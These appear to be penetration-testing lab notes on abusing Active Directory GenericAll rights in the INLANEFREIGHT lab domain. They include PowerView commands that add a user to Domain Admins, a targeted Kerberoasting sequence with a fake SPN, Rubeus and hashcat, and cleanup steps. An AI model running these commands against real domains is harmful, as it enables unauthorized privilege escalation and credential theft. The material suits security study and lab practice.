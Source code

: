 Members of the `Information Technology` group have `GenericAll` rights over the user `adunn`, which means we could:

1. Modify group membership
2. Force change a password
3. Perform a targeted Kerberoasting attack and attempt to crack the user's password if it is weak

#### 1. Modify group membership

In this case the user CT059 will be adding the user AB920 as Domain Admin

```powershell
$SecPassword = ConvertTo-SecureString 'charlie1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\CT059', $SecPassword)

Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'AB920' -Credential $Cred
```


#### 2. Kerberoasting attack 

```powershell
# Creating a SecureString Object using damundsen
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 

# Creating a Fake SPN
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

#  Kerberoasting with Rubeus
.\Rubeus.exe kerberoast /user:adunn /nowrap

# Crack it
hashcat -m 13100 $filename /usr/share/wordlists/rockyou.txt
```


Clean up:

```powershell
# 1. Removing the Fake SPN from adunn's Account
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

# 2. Remove the damundsen user from the Help Desk Level 1 group
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
# Confirming damundsen was Removed from the Group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

## DCSync
